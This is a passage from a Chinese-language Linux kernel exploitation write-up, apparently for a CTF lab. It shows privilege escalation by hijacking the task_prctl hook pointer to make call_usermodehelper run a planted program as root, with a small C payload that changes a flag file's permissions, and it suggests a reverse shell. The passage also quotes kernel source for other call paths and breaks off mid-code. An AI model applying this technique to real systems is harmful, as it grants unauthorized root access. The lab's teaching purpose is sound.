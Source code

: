 接下来我们可以看到通过`call_usermodehelper`调用`/rootme`的具体参数布置。

最后，我们看到，我们事先布置的`rootme`程序已被执行

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-30-154445.png)

#### <a class="reference-link" name="%E6%9C%80%E7%BB%88%E6%8F%90%E6%9D%83"></a>最终提权

`call_usermodeheler`函数创建的新程序，实际上作为`keventd`内核线程的子进程运行，因此具有root权限。 新程序被扔到内核工作队列`khelper`中进行执行。

由于不好表征我们已经提权成功（可以选用反向`shell`），我们此处在文件系统的根目录设置一个`flag`文件，所属用户设置为`root`，权限设置为`700`。即在`Init`文件中添加

```
chown root /flag
chmod 700 /flag
```

接下来我们替换`rootme`程序为一个更改`flag`权限的程序

```
#include&lt;stdlib.h&gt;

int main()`{`
    printf("Exec command in root ing......");
    system("chmod 777 /flag");
    printf("Exec command end!");
    return 0;
`}`
```

再次运行`Exploit`

[![](https://img.lhyerror404.cn/error404/2020-04-30-162038.png)](https://img.lhyerror404.cn/error404/2020-04-30-162038.png)

#### <a class="reference-link" name="%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93"></a>姿势总结
1. 这种提权姿势最核心的就是劫持`hp-&gt;hook.task_prctl`函数指针执行任意代码，第一个传入参数只能是一个`32`位的变量。
<li>
`call_usermodehelper`可以很方便的以`root`权限启动任意程序，但是可能没有回显，因此可以考虑使用`reverse_shell`。</li>
1. **这种方案不受`SMEP`、`SMAP`保护的影响！**
#### 其他间接调用`call_usermodehelper`函数的函数
<li>
`__request_module`函数函数实现于`/v4.6-rc1/source/kernel/kmod.c#L124`
<pre><code class="lang-c hljs cpp">int __request_module(bool wait, const char *fmt, ...)
`{`
    ......

    ret = call_modprobe(module_name, wait ? UMH_WAIT_PROC : UMH_WAIT_EXEC);

    atomic_dec(&amp;kmod_concurrent);
    return ret;
`}`
EXPORT_SYMBOL(__request_module);
</code></pre>
`call_modprobe`实现于`/v4.6-rc1/source/kernel/kmod.c#L69`
<pre><code class="lang-c hljs cpp">static int call_modprobe(char *module_name, int wait)
`{`
    struct subprocess_info *info;
    static char *envp[] = `{`
        "HOME=/",
        "TERM=linux",
        "PATH=/sbin:/usr/sbin:/bin:/usr/bin",
        NULL
    `}`;
